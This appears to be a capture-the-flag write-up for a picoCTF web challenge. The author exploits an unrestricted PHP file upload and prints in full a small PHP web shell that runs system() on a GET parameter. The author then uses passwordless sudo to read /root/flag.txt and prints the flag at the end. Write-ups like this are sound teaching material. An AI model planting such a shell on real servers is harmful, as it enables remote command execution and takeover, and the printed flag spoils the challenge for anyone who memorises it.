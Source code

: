# n0s4n1ty1

## Web

### A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Visiting the landing page reveals where we can upload.

![landing](./landing.png)

I don't see anything specifying a file type to upload, so I tried anything (a text file) to see what happens.

![text_file_up](./text_file_up.png)

It accepted it.  Great for us, bad for them.  There are two pieces of information on this page that are interesting.  One, the path to the file we uploaded, and two, from the URL, we can see that PHP is being used for the site.  Let's go to the path and see if we can get to our file.

![text_file_out](./text_file_out.png)

Viola!  I want to see if I can upload a PHP file.

I have these types of files saved up, but if I didn't, I'd search Google.

![google](./google_search.png)

From the highlighted link, you can see which one I chose.

```php
<?
//
// PHP_KIT
//
// cmd.php = Command Execution
//
// by: The Dark Raver
// modified: 21/01/2004
//
?>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?
if($_GET['cmd']) {
  system($_GET['cmd']);
  }
?>
</pre>
</BODY></HTML>

```

This bit of code will take text input from a PHP form and run it as a system command.  Giving us command line access.

I saved that file and uploaded it.

![cmd_up](./cmd_up.png)

And when we follow the link, instead of getting text back, the file gets executed!

![cmd](./cmd.png)

Now we look for the flag!  The instructions said it's in the /root directory...
First, I tried to `cd` to /root. That's where I found that when a command fails, it will have no output.

Let's examine the permissions of the/root directory.

![ls_root](./ls_root.png)

Okay, we're not getting anywhere unless there's a means of gaining root access.  Let's see if we're allowed to `sudo`

![sudo](./sudo.png)

Yes!  We can use `sudo` for any command without a password! I'm going to use `sudo cat /root/flag.txt`

![sudo cat](./sudo_cat.png)

**picoCTF{wh47_c4n_u_d0_wPHP_712a9451}**






